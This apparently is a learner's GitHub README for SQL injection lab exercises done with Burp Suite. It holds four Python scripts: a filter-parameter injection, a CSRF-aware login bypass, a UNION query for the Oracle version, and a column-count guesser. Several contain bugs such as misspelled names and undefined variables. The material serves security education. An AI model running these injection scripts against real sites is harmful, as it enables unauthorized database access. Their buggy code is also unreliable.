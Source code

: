 # SQL Injection Labs Repository

This repository contains Python scripts for various SQL injection labs I am working on while learning SQL injection techniques using Burp Suite. Each lab has its own script, and this README will be updated as I progress through the labs.

# Labs Overview

## Lab 1: Basic SQL Injection

- **Description**: This lab demonstrates a basic SQL injection attack by exploiting a vulnerable URL parameter.
- **Script**: `sql_injection1.py`
- **Status**: Completed

```bash

python3 script.py <url> <payload>

import requests
import sys 
import urllib

proxies={'http':"http://127.0.0.1:8080",'https':"https://127.0.0.1:8080"}

def exploit_sql(url,payload):
    uri="/filter?category="
    r=requests.get(url+uri+payload,verify=False,proxies=proxies)
    if "cat grin" in r.text:
        return True
    else:
        return False

if __name__ == "__main__":
    try:
        url=sys.argv[1].strip() 
        payload=sys.argv[2].strip()
    except IndexError:
        print("usage is not correct ")
    if exploit_sql(url,payload):
        print(" the sql injection is complete")
    else:
        print("there is error in the sql injection") 
```

## Lab 2: SQL Injection with CSRF Token

- **Description**: This lab demonstrates SQL injection while handling CSRF tokens. It retrieves the CSRF token from the webpage and uses it to attempt a login with an SQL payload.
- **Script**: `sql_injection2.py`
- **Status**: Completed

```bash

python3 python3 labX_script.py <url> <sql_payload>

import sys
import requests
import urllib3
from bs4 import BeautifulSoup 
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

proxies= {"http":"http://127.0.0.1:8080","https":"https://127.0.0.1:8080"}

def get_csrf_token(s,url):
    res = s.get(url,verify=False,proxies=proxies)
    soup = BeautifulSoup(res.text,'html.parser')
    csrf=soup.find("input")["value"]
    return csrf

def exploit_sqli(s,url,payload):
    csrf=get_csrf_token(s,url)
    data={"csrf":csrf,"username":payload,"password":"12345678"}
    r=s.post(url,data=data,verify=False,proxies=proxies)
    ras=r.text
    if "log out" in ras:
        return True
    else:
        return False


if __name__== "__main__":
    try:
        url=sys.argv[1].strip()
        sqli_payload=sys.argv[2].strip()
    except IndexError:
        print("use the below bash command on your terminal")
        print("use python3 file.py <url> <sql payload>")
    s=requests.Session()
    if exploit_sqli(s,url,payload):
        print("the sql injetion is successful we have logged in")
    else:
        print("the sql injection is not successful we are not logged in")

```


#### Requirements

- pip install requests beautifulsoup4 urllib3

## Lab 3: SQL Injection with UNION TO IDENTIFY DATA BASE VERSION

- **Description**: This lab demonstrates SQL injection attack against a vulnerable web application to retrieve the version of the Oracle database USING SQL UNION operator.
- **Script**: `sql_injection3.py`
- **Status**: Completed
- **note**: 

    - To use UNION, you must know the number of columns because:
        1. The number and order of the columns must be the same in all queries.
        2. The data types must be compatible.
    - The database is Oracle. In Oracle, after the SELECT statement, the FROM clause must follow when you try to identify the number of columns.

```bash
import sys
import urllib3
import requests
from bs4 import BeautifulSoup
import re

urllib3.disable_warnings(urllib3.exceptions.INsecureRequestWarning)

proxies={"http":"http://127.0.0.1:8080","https":"https://127.0.0.1:8080"}

def exploit_sqli_version(url):
    path="/filter?catagory=Gifts"
    sql_payload= "UNION select banner,NULL from v$version--"
    r=requests.get(url+path+sql_payload,verify=False,proxies=proxies)
    res=r.text
    if "oracle database" in res:
        print("the sql injection is succesfull")
        soup=BeautifulSoup(r.text,"html.parser")
        version=soup.find(text=re.compile('^.oracle/sDatabase'))
        print(f"the oracle data base version is {version}")


if __name__=="__main__":
    try:
        url=sys.argv[1].strip()
    except: 
        print("input the url")
        sys.exit()
    if exploit_sqli_version(url):
        print("unable to dump the databsse")
```
## Lab 4: SQL Injection Index Checker

- **Description**: This lab demonstrates SQL injection attack against a vulnerable to test for SQL injection vulnerabilities by checking the index of a specified payload against a given URL.
- **Script**: `sql_injection4.py`
- **Status**: Completed
- **note**: 

    - To use UNION, you must know the number of columns because:
        1. The number and order of the columns must be the same in all queries.(this code help as with this)
```bash
import sys
import requests 
import urllib3

urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

proxies = {
    "http": "http://127.0.0.1:8080",
    "https": "https://127.0.0.1:8080"
}

def index_guess(url, payload):
    for i in range(1, 50):
        path = "/filter?category=Gifts"
        r = requests.get(url + path + payload,Verify=False, proxies=proxies)  
        
        if r.status_code == 200 in r.text:
            return i
    return None 

if __name__ == "__main__":
    try:
        url = sys.argv[1].strip()
        payload = sys.argv[2].strip()
    except IndexError:
        print("Input in this format: <url> <payload>")
        sys.exit(1) 

    num = index_guess(url, payload)  
    if num is not None and num >= 1:    
        print(f"The index number is {num}")  
    else:
        print("There is an error or no index for the SQL.")
```


# Disclaimer

- These scripts are intended for educational purposes only. Use them responsibly and only on applications you own or have explicit permission to test.